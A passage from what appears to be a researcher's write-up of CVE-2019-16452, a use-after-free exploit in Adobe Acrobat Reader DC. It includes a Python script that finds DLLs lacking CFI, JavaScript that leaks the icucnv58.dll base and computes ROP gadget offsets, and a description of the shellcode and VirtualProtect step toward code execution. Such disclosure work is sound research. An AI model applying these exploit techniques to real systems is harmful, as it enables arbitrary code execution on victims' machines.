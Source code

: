 ```

```

We can then overwrite `CTextField` object’s `vftable` to control PC.

Bypassing CFI
-------------

With CFI enabled, we cannot use ROP. I wrote a small script to look for any module that doesn’t have CFI enabled and is loaded at the time my exploit is running. I found `icucnv58.dll`.

```
import pefile
import os

for root, subdirs, files in os.walk(r'C:\Program Files (x86)\Adobe\Acrobat Reader DC\Reader'):
	for file in files:
		if file.endswith('.dll') or file.endswith('.exe') or file.endswith('.api'):
			fpath = os.path.join(root, file)
			try:
				pe = pefile.PE(fpath, fast_load=1)
			except Exception as e:
				print (e)
				print ('error', file)
			if (pe.OPTIONAL_HEADER.DllCharacteristics & 0x4000) == 0:
				print (file)


```

The `icucnv58.dll` base address can be leaked via `Acroform.API`. There is enough gadgets inside `icucnv58.dll` to perform a stack pivot and ROP.

```
r = myread(ACROFORM_BASE+0xBF2E2C)
ICU_BASE = myread(r+16)
console.println('ICU_BASE: ' + ICU_BASE.toString(16))
assert(ICU_BASE>0)

g1 = ICU_BASE + 0x919d4 + 0x1000
g2 = ICU_BASE + 0x73e44 + 0x1000
g3 = ICU_BASE + 0x37e50 + 0x1000


```

Last Step
---------

Finally, we have everything we need to achieve full code execution. Write the shellcode into memory using the arbitrary write primitive then call `VirtualProtect` to enable execute permission. The full exploit code can be found at [here](https://github.com/star-sg/CVE/tree/master/CVE-2019-16452) if you are interested. As a result, the reliability of my UAF exploit can achieved a ~80% success rate. The exploitation takes about 3-5 seconds on average. If there are multiple retries required, the exploitation can take a bit more time.
